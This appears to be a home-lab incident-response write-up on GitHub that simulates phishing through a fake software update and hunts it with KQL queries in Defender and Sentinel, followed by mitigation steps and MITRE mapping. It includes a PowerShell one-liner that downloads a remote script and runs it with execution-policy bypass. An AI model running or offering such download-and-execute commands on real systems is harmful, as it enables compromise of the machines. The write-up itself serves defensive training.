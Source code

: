 

# 🚨 **Incident Response: Phishing via Fake Software Update** 🚨  

<img width="700*500" src="https://github.com/user-attachments/assets/e9d2fd77-dc9f-4faa-a735-925e1d3a25f0" alt="Tor Logo with the onion and a crosshair on it"/>

---

### 🛡️ **Scenario Overview**  
- **Organization**: 🏢 Medium-sized FinTech company.  
- **Threat**: Employees report unusual system behavior after clicking on a suspicious software update notification.  
- **Objective**: Identify the phishing campaign’s scope, mitigate its impact, and strengthen defenses.  

---

### 🌐 **PowerShell Payload (POC)**  

 
📥 **The PowerShell Payload**
Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/VanessaMancia/PowerShell-test-script/refs/heads/main/testscript.ps1' -OutFile 'C:\ProgramData\phishingFakeSoftwareUpdate.ps1'; cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\phishingFakeSoftwareUpdate.ps1
```

https://raw.githubusercontent.com/VanessaMancia/PowerShell-test-script/refs/heads/main/testscript.ps1

---

![Screenshot 2025-01-26 181108](https://github.com/user-attachments/assets/ae028dcd-fe4d-420a-94a3-c68dd922c05b)

![Screenshot 2025-01-26 130233](https://github.com/user-attachments/assets/1fafdb38-ba32-4b29-b86f-dbb693dbfc0e)

---
### 💻 **Platforms and Tools Leveraged**  
- **SIEM**: Microsoft Sentinel  
- **Endpoint Protection**: Microsoft Defender for Endpoint  
- **Query Language**: Kusto Query Language (KQL)  
- **Infrastructure**: Windows 10 VMs on Microsoft Azure  

---

## 🕵️‍♂️ **High-Level IoC Discovery Plan**  
**Focus Areas**:  
1️⃣ Check **DeviceFileEvents** for suspicious file activity. 
2️⃣ Check **DeviceProcessEvents** for signs of malicious execution.  
3️⃣ Check **DeviceNetworkEvents** for outgoing connections, especially over known malicious ports.  

---

### 🔍 **KQL Queries**  

**Query: Recent File Events**  
```kql
DeviceFileEvents
| top 50 by Timestamp desc
```

**Query: Network Events**  
```kql
DeviceNetworkEvents
| top 50 by Timestamp desc
```

**Query: Process Events**  
```kql
DeviceProcessEvents
| top 50 by Timestamp desc
```

---

## 📊 **Threat Timeline**  

### 1️⃣ **File Download (Initial Access)**  
- **TTP**: [T1193](https://attack.mitre.org/techniques/T1193) - Spear Phishing Link  
- **Event**: Employees receive a phishing email that mimics IT, containing a link to a "critical software update."  
- **Impact**: The link leads to downloading a PowerShell payload.  

**Relevant Query**:  
```kql
DeviceFileEvents
| where DeviceName == "nessa-windows"
| where InitiatingProcessAccountName == "bigmomma"
| where FileName contains "ps1"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine, InitiatingProcessAccountName
| order by Timestamp desc 
```
![Screenshot 2025-01-26 131545](https://github.com/user-attachments/assets/f190fc54-f255-4099-a429-46a419cea15f)

---

### 2️⃣ **Process Execution**  
- **TTP**: [T1059.001](https://attack.mitre.org/techniques/T1059/001) - PowerShell Execution  
- **Event**: Malicious PowerShell script execution on victim devices.  
- **Query Used**:  
```kql
let specificTime = datetime(2025-06-30T20:42:15.0207278Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 2m)..(specificTime +2m))
| where DeviceName == "nessa-windows"
| order by Timestamp desc 
```

![Screenshot 2025-01-26 133010](https://github.com/user-attachments/assets/fb1a3ed6-c915-42fc-865a-d1eb1fe45cff)

---

```kql
DeviceProcessEvents
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by Timestamp desc
```
![Screenshot 2025-01-26 134312](https://github.com/user-attachments/assets/b64c07c0-13a4-4e54-9aa2-aa3e762c2fff)

---


### 3️⃣ **Network Connection to C2 Server**  
- **TTP**: [T1071.001](https://attack.mitre.org/techniques/T1071/001) - Web Protocols  
- **Event**: Communication with a C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents, DeviceProcessEvents
| where Timestamp > ago(6h)
| where DeviceName == "nessa-windows"
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![Screenshot 2025-01-26 140306](https://github.com/user-attachments/assets/92b90182-bdcb-4d0b-a86a-df3a193d96f4)

---

### 4️⃣ **Lateral Movement & Credential Dumping**  
- **TTP**:  [T1210](https://attack.mitre.org/techniques/T1210) - Exploitation of Remote Services  
- **Event**: Several other devices Communicating with the C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents,DeviceProcessEvents
| where Timestamp > ago(6h)
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![image](https://github.com/user-attachments/assets/eaef1372-e359-4f12-8d78-b770aed23944)


---

## 🛠️ **Mitigation Steps**  

### 🔒 Containment  
1️⃣ Block the malicious domain on the firewall and DNS servers.  
2️⃣ Disable compromised user accounts and enforce password resets.  
3️⃣ Isolate infected machines from the network.  

### 🧹 Eradication  
1️⃣ Deploy updated antivirus signatures to detect and remove the malware.  
2️⃣ Conduct system-wide scans using EDR tools.  

### 🔄 Recovery  
1️⃣ Restore affected systems from backups.  
2️⃣ Re-enable user access after ensuring systems are clean.  

---

## 🧠 **Post-Incident Improvements**  

### 🚀 Proactive Monitoring  
- Enhanced SIEM rules for detecting phishing emails.  
- Integration of threat intelligence feeds to block new malicious domains.
- Create a Rule to detect this. 

### 📚 User Awareness  
- Mandatory phishing training with simulation tests.  
- Quick-reference phishing awareness guide shared via email.  

---

### 📈 **Mapped TTPs to MITRE ATT&CK Framework**  

| Tactic             | Technique                             | ID        | Example                             |  
|---------------------|---------------------------------------|-----------|-------------------------------------|  
| **Initial Access**  | Spear Phishing Link                  | T1193     | Phishing email with fake update link |  
| **Execution**       | PowerShell Execution                 | T1059.001 | Malicious PowerShell script executed |  
| **Command & Control** | Web Protocols                     | T1071.001 | C2 communication to exfiltrate data |  
| **Credential Access** | Credentials in Files              | T1555.003 | Stolen credentials from payload use |  
| **Lateral Movement**  | Exploitation of Remote Services    | T1210     | Attempts to pivot to other devices  |  

---

